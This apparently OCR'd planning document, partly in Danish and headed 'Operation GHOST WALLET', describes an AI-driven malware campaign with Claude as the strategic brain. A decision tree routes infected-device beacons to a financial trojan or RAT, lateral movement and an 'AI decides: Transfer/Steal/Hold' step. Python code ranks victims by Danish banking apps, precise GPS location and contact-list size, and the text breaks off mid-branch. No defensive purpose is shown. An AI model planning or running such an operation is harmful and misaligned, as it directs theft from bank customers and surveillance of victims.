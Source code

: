 
## Phase 2: AI-Driven Automation Strategy 

### 🧠 AI Framework: "Operation GHOST WALLET"

#### Core Concept:
**Claude som strategisk hjerne der:**
1. Analyserer beacon data real-time
2. Identificerer high-value targets  
3. Foreslår næste exploitation steps
4. Automatiserer payload deployment
5. Optimerer spredning baseret på success rate

### 🤖 AI Decision Tree

```mermaid
graph TD
    A[Beacon Callback] --> B[Claude Analyser Data]
    B --> C{High Value Target?}
    C -->|Yes| D[Deploy Stage 2 Payload]
    C -->|No| E[Continue Monitoring]
    
    D --> F{Banking Apps Detected?}
    F -->|Yes| G[Deploy Financial Trojan]
    F -->|No| H[Deploy Generic RAT]
    
    G --> I[Monitor Financial Activity]
    H --> J[Lateral Movement Scan]
    
    I --> K[AI Decides: Transfer/Steal/Hold]
    J --> L[AI Identifies New Vectors]
```

### 🎯 AI Automation Components

#### **1. Intelligent Target Prioritization**
```python
# Claude analyzes incoming beacon data
def prioritize_target(beacon_data):
    score = 0
    
    # High value indicators
    if "danske bank" in beacon_data['installed_apps']:
        score += 50
    if "mobilepay" in beacon_data['installed_apps']:
        score += 40
    if "trading" in beacon_data['installed_apps']:
        score += 60
    
    # Location value
    if beacon_data['location']['accuracy'] < 10:  # GPS precise
        score += 20
    
    # Contact value
    if len(beacon_data['contacts']) > 100:
        score += 30
    
    return score

# Claude decides next action
if target_score > 80:
    deploy_financial_payload()
elif target_score > 50:
```